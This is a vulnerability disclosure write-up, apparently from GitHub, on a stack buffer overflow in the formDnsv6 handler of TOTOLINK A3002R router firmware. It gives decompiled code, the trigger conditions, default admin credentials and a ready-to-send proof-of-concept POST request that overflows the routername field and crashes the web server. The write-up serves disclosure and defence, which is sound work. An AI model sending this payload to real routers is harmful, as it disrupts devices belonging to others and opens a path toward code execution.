

## **Description**

A ​**stack-based buffer overflow vulnerability** was discovered in the TOTOLINK A3002R firmware version ​**V4.0.0-B20230531.1404**. The vulnerability arises from the improper input validation of the `routername` parameter in the formDnsv6 interface of /bin/boa.

## ​**Affected Product**

- ​**Brand**: TOTOLINK
- ​**Product**: A3002R
- ​**Version**: V4.0.0-B20230531.1404

The firmware can be downloaded from the official website.  
The vulnerability was confirmed using ​**FirmAE** for firmware emulation:

```sh
sudo ./run.sh -d TOTOLINK ../FIRMWARE/TOTOLINK_A3002R_Ge_V4_0_0_B20230531_1404.web
```

**Default credentials**:

- ​**Username**: `admin`
- ​**Password**: `admin`

The result of the simulation is as follows: 


## ​**Vulnerability Analysis**

### ​**Root Cause**

The vulnerability occurs in the function `FUN_00451d3c`, which processes HTTP POST parameters:

1. It retrieves the `enable_dnsv6` parameter and updates a configuration flag (`param_4`).
2. If `enable_dnsv6=1`, it fetches the `routername` parameter and copies it into a fixed-size stack buffer (`auStack_1a0`) using `strcpy()`.
3. ​**No bounds checking** is performed, allowing an attacker to overflow the buffer and overwrite critical stack data (e.g., return addresses).

### ​**Key Vulnerable Code**

```c
undefined4 FUN_00451d3c(undefined4 param_1, undefined4 param_2, undefined4 param_3, byte *param_4) {
    char *pcVar1;
    uint uVar2;
    
    pcVar1 = (char *)FUN_0040f2b4(param_1, "enable_dnsv6", "");
    uVar2 = atoi(pcVar1);
    if (uVar2 != *param_4) {
        *param_4 = (byte)uVar2;
    }
    if (uVar2 != 0) {
        pcVar1 = (char *)FUN_0040f2b4(param_1, "routername", "");
        strcpy((char *)(param_4 + 1), pcVar1); // Buffer Overflow Here
    }
    return 0;
}
```

- ​**FUN_0040f2b4** retrieves POST parameters (`enable_dnsv6` and `routername`).
- ​**strcpy()** is used without length checks, leading to a ​**stack overflow**.

By analyze the call of funcion `FUN_00451d3c`, parameter `submit` should be set as 'Save'

```c
  undefined1 auStack_1a0 [324];
  undefined1 auStack_5c [72];
  
  FUN_00450d08(auStack_1a0);
  pcVar1 = (char *)FUN_0040f2b4(param_1,"submit","");
  iVar2 = strcmp(pcVar1,"Save");
  if (iVar2 == 0) {
    FUN_00451d3c(param_1,param_2,param_3,auStack_1a0);
  }
```
### ​**Exploit Conditions**

1. The attacker must send a POST request with:
    - `submit=Save` (to trigger the vulnerable function).
    - `enable_dnsv6=1` (to enable `routername` processing).
    - `routername=<long malicious payload>` (to overflow the buffer).
2. The overflow can overwrite the ​**return address** or ​**function pointers**, leading to ​**arbitrary code execution**.

## ​**Proof of Concept (PoC)**

### ​**Exploit Request**
 we use burpsuite to capture a normal POST packet to obtain the sessionCheck parameter for authentication and modify the packet.

```http
POST /boafrm/formDnsv6 HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 1212
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/wlsecurity.htm?t=1744618117722

sessionCheck=24b3c469c2381adc56bc9e6349514fc3&submit=Save&enable_dnsv6=1&routername=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

After the request the `boa` process will crash.

